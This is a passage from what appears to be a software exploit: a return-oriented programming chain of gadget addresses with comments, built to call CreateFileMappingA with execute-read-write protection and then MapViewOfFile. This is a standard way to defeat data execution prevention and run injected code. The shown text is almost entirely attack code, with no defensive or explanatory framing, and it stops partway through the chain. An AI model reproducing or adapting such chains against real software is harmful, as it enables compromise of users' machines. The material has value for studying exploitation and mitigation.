 				#   jl ret_zero
				#   cmp al,0x7a
				#   jg ret_zero
				#   cmp [ecx+1],0x3a
				#   je ret_one
				# ret_zero:
				#   xor al,al
				#   ret
				#
	 
				0x4a80a8a6,   # execute fun block
	 
				0x4a801f90,   # pop eax / ret
				0x4a849038,   # becomes eax (import for CreateFileMappingA)
	 
				# -- call CreateFileMappingA
				0x4a80b692,   # jmp [eax]
	 
				0x4a801064,   # ret
	 
				0xffffffff,   # arguments to CreateFileMappingA, hFile
				0x00000000,   # lpAttributes
				0x00000040,   # flProtect
				0x00000000,   # dwMaximumSizeHigh
				0x00010000,   # dwMaximumSizeLow
				0x00000000,   # lpName
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx
	 
				0x4a842db2,   # xchg eax,edi / ret
	 
				0x4a802ab1,   # pop ebx / ret
				0x00000008,   # becomes ebx - offset to modify
	 
				0x4a80a8a6,   # execute fun block
	 
				0x4a801f90,   # pop eax / ret
				0x4a849030,   # becomes eax (import for MapViewOfFile
	 
				# -- call MapViewOfFile
				0x4a80b692,   # jmp [eax]
	 
